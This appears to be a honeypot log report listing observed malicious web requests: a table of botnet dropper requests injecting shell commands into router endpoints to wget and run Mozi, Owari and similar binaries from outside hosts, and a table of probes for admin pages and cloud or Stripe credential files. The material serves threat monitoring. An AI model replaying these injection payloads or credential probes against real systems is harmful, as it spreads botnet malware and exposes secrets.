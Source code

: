 ## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                                                                                              |
|:---------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 58.146.59.84   | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://200.129.143.6/Binarys/Owari.arm;chmod+777+/tmp/Owari.arm;sh+/tmp/Owari.arm arm4.jaws HTTP/1.1                                                                                                                                                                                                               |
| 124.220.11.157 | GET /shell?cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F45.95.147.201%2Fbins%2Farm7%3B%20chmod%20777%20arm7%3B%20.%2Farm7%20jaws%3B HTTP/1.1\x5Cr\x5CnUser-Agent: Mozila/5.0\x5Cr\x5CnHost: 127.0.0.1:80\x5Cr\x5CnAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\x5Cr\x5CnConnection: keep-alive\x5Cr\x5Cn\x5Cr\x5Cn\x11 |
| 103.181.64.167 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.181.64.167:54367/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                        |
| 31.170.22.205  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(chmod+777+%2Ftmp%3B+cd+%2Ftmp%3B+wget+http%3A%2F%2F31.170.22.205%2Fdl17%3B+sh+dl17) HTTP/1.1                                                                                                                                                                                  |
| 102.212.41.10  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.15.10.112:41816/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                         |
| 185.36.81.82   | GET /shell?wget+http://37.221.93.64/bins/abrissy.sh+-O+/tmp/abrissy.sh;+chmod+%2Bx+/tmp/abrissy.sh;+/tmp/abrissy.sh HTTP/1.1                                                                                                                                                                                                                         |
| 45.230.66.20   | GET /shell?cd+/tmp;rm+-rf+*;wget+http://45.230.66.20:10305/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                                                                         |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|      |   number_of_occurence | request                                                             |
|-----:|----------------------:|:--------------------------------------------------------------------|
|   44 |                     5 | GET /admin HTTP/1.1                                                 |
|   46 |                     5 | GET /debug HTTP/1.1                                                 |
|   50 |                     5 | GET /auth HTTP/1.1                                                  |
|   77 |                     3 | GET /api/user HTTP/1.1                                              |
|   78 |                     3 | GET /api/token HTTP/1.1                                             |
|   79 |                     3 | GET /api/register HTTP/1.1                                          |
|   80 |                     3 | GET /api/login HTTP/1.1                                             |
|   82 |                     3 | GET /api/docs HTTP/1.1                                              |
|   84 |                     3 | GET /.cshrc HTTP/1.1                                                |
|   85 |                     3 | GET /.config/gcloud/ HTTP/1.1                                       |
|   86 |                     3 | GET /.bzr/ HTTP/1.1                                                 |
|   87 |                     3 | GET /.boto HTTP/1.1                                                 |
|   91 |                     3 | GET /.azure/ HTTP/1.1                                               |
|   92 |                     3 | GET /admincp HTTP/1.1                                               |
|   93 |                     3 | GET /stripe.json HTTP/1.1                                           |
|   94 |                     3 | GET /stripe.env HTTP/1.1                                            |
|   95 |                     3 | GET /stripe.config.js HTTP/1.1                                      |
|   96 |                     3 | GET /stripe-keys.json HTTP/1.1                                      |
|   97 |                     3 | GET /stripe-credentials.json HTTP/1.1                               |
|   98 |                     3 | GET /src/config/stripe.ts HTTP/1.1                                  |
|   99 |                     3 | GET /src/config/stripe.js HTTP/1.1                                  |
|  101 |                     3 | GET /admin-console HTTP/1.1                                         |